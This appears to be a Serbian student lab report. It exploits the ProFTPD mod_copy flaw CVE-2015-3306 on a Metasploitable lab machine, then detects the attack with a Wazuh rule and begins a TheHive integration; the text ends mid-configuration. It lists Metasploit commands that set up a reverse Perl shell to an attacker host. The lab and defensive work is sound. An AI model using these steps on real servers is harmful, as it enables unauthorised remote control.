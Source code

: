 # Eksploatacija ranjivosti, detekcija, i Incident Response izveštaj

### Ime i prezime: Ognjen Radovanović R2 9/2024

---

## Pregled ranjivosti

### 1.1 Informacije o ranjivosti

- **ID ranjivosti (CVE):** CVE-2015-3306
- **Pogođen servis:** ProFTPD
- **CVSS ocena:** 9.8
- **Opis ranjivosti:** Ranjivost se odnosi na `mod_copy` modul u ProFTPD verziji 1.3.5, koji omogućava udaljenim napadačima da čitaju i pišu u proizvoljne fajlove korišćenjem FTP komandi `SITE CPFR` i `SITE CPTO`. Ranjivost omogućava neautorizovan pristup fajlovima na sistemu i potencijalno daljinsko preuzimanje kontrole nad pogođenim serverom.

### 1.2 Opis eksploita

**Metod eksploatacije:**

Eksploatacija ranjivosti koristi komandni interfejs Metasploit Framework-a kako bi se iskoristila ranjivost u `mod_copy` modulu. Napad uključuje korišćenje komandi `SITE CPFR` i `SITE CPTO` za premeštanje malicioznog payload-a na serveru.

---

## Proces eksploatacije

### 2.1 Podešavanje eksploita

**Ranjiv cilj:**

- Operativni sistem: Metasploitable 3 Ubuntu
- Verzija ProFTPD-a: 1.3.5
- Portovi: FTP (21), HTTP (80)

**Alati za eksploataciju:**

- Metasploit Framework
- Alat za testiranje mreža (npr. `nmap` za detekciju servisa i verzija)

### 2.2 Koraci eksploatacije

1. **Pokretanje Metasploit Framework-a:**

   ```bash
   msfconsole
   ```
2. **Pronalaženje odgovarajućeg modula:**

   ```bash
   search proftpd
   ```

   Odabiramo modul `exploit/unix/ftp/proftpd_modcopy_exec` za eksploataciju.

   ```bash
   use exploit/unix/ftp/proftpd_modcopy_exec
   ```
3. **Odabiramo payload `cmd/unix/reverse_perl`.**

   ```bash
   use cmd/unix/reverse_perl
   ```
4. **Postavljamo sitepath.**

   ```bash
   set sitepath /var/www/html
   ```
5. **Podešavanje parametara eksploita:**

   - Postavljamo IP adresu cilja:
     ```bash
     set RHOST <CILJ_IP>
     ```
   - Postavljamo port cilja:
     ```bash
     set RPORT 21
     ```
   - Postavljamo IP adresu napadača za reverse shell konekciju:
     ```bash
     set LHOST <NAPADAC_IP>
     ```
   - Postavljamo lokalni port za reverse shell konekciju:
     ```bash
     set LPORT 4444
     ```
6. **Pokretanje eksploita:**

   ```bash
   exploit
   ```
![Screenshot_3](https://github.com/user-attachments/assets/5f26bbd9-6fa5-4e78-a776-2ff978f72447)
![Screenshot_1](https://github.com/user-attachments/assets/ed5f8fa4-e880-4544-a7b8-b94a0a56306b)
![Screenshot_2](https://github.com/user-attachments/assets/4d13c2f8-597c-48ad-91e1-c7038c59d779)

### 2.3 Rezultat eksploatacije

Eksploatacija je uspešno izvršena. Ostvarena je Metasploit Meterpreter sesija na ciljnom sistemu, omogućavajući daljinski pristup fajlovima i sistemskim komandama.

---

## Detekcija korišćenjem Wazuh SIEM-a

### 3.1 Pravila za detekciju

**Dodato pravilo u Wazuh SIEM-u:**

U fajlu `/var/ossec/etc/rules/local_rules.xml` dodat je sledeći unos za detekciju malicioznih `SITE CPFR` i `SITE CPTO` komandi:

```xml
<group name="proftpdgroup">
    <rule id="100003" level="12">
        <description>ProFTPD mod_copy attack detected</description>
        <match>SITE CPFR|SITE CPTO</match>
        <options>no_full_log</options>
        <mitre>
            <id>T1021</id>
        </mitre>
    </rule>
</group>
```

- **ID pravila:** `100003`
- **Mitre ID:** `T1021`
- **Level:** `12`
- **Opis pravila:** Pravilo detektuje FTP komande koje se koriste za eksploataciju `mod_copy` modula.

### 3.2 Konfiguracija SIEM-a

**Postavljanje Wazuh agenta:**

Agent je instaliran na ciljnoj mašini korišćenjem naredbe:

```bash
wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.9.2-1_amd64.deb
sudo WAZUH_MANAGER='<MANAGER_IP>' WAZUH_AGENT_NAME='<CILJ_IMENA>' dpkg -i ./wazuh-agent_4.9.2-1_amd64.deb
```

Agent se zatim pokreće:

```bash
sudo /var/ossec/bin/wazuh-control start
```

**Prikupljanje logova:**

Dodato je praćenje FTP logova u `ossec.conf` fajlu:

```xml
<localfile>
  <location>/var/log/proftpd/proftpd.log</location>
  <log_format>syslog</log_format>
</localfile>
```

### 3.3 Proces detekcije

Nakon pokretanja eksploita, u logovima se beleže maliciozne komande `SITE CPFR` i `SITE CPTO`, koje su detektovane kao potencijalni napad. Wazuh generiše alarme sa detaljima o izvornoj IP adresi napadača.

---

## Incident Response sa The Hive-om

### 4.1 Podešavanje integracije

**Opis integracije:**

Wazuh je konfigurisan za integraciju sa The Hive-om kako bi svi detektovani incidenti bili automatski prosleđeni. Koristi se Python skripta za komunikaciju sa API-em The Hive-a, koja kreira novi incident za svaki relevantan alarm.

**Dodavanje pravila u integraciju:**

Konfiguracija u Wazuh menadžru za integraciju sa The Hive-om izgleda ovako:

```xml
<integration>
  <name>thehive</name>
  <hook_url>http://<THE_HIVE_IP>:9000/api/alert</hook_url>
  <api_key><API_KEY></api_key>
  <level>10</level>
</integr
```
